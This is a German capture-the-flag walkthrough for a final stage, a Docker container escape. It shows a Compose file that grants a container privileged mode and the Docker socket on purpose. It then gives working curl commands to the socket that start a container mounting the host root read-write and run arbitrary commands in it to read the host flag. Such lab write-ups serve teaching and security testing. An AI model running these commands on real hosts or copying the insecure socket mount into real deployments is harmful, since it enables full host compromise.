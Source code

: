 # Stage 6: Container Escape & Host-Flag

## Ziel
Nutze eine im Compose freigeschaltete Lücke, um auf den Host zu entkommen und die letzte Flag zu lesen.

## Setup-Hinweis
Der Backend-Container wurde mit privilegierten Rechten und Mounts versehen:

```yaml
services:
  backend:
    privileged: true
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
```
## Schritt-für-Schritt
Im Backend Container erstellst du einen neuen Container mit dem gesamten Host Daten:
```shell
curl --silent --unix-socket /var/run/docker.sock   -H "Content-Type: application/json"   -d '{
        "Image":      "alpine:latest",
        "Cmd":        ["sh","-c","sleep 1d"],
        "HostConfig": {"Binds":["/:/host:rw"]}
      }'   -X POST http://localhost/containers/create?name=ctf-escape \
    &&  \
curl --silent --unix-socket /var/run/docker.sock \
     -X POST http://localhost/containers/ctf-escape/start
   ```
Man kann dann das System untersuchen. Die Flag befindet sich im Root Verzeichnis des Hosts diese kann man so abrufen:
```shell
# 1) EXEC_ID holen (hier ["cat","/host/root/flag.txt"] für die Flag durch beliebige Befehel ersetzt werden)
EXEC_ID=$(curl -s --unix-socket /var/run/docker.sock \
  -H "Content-Type: application/json" \
  -d '{"AttachStdout":true,"AttachStderr":true,"Tty":true,"Cmd":["cat", "/host/root/flag.txt"]}' \
  -X POST http://localhost/containers/ctf-escape/exec \
  | sed -nr 's/.*"Id":"([^"]+)".*/\1/p')

# 2) den Exec-Call starten und den Output direkt ausgeben
curl --no-buffer --silent --unix-socket /var/run/docker.sock \
  -H "Connection: Upgrade" \
  -H "Upgrade: tcp" \
  -H "Content-Type: application/json" \
  -d '{"Detach":false,"Tty":true}' \
  -X POST http://localhost/exec/$EXEC_ID/start
```
Die finale Flag auf dem Host lautet:
`FLAG{root_flag_retrieved}`

Herzlichen Glückwunsch – du hast alle Stages gemeistert und die Challenge erfolgreich abgeschlossen!
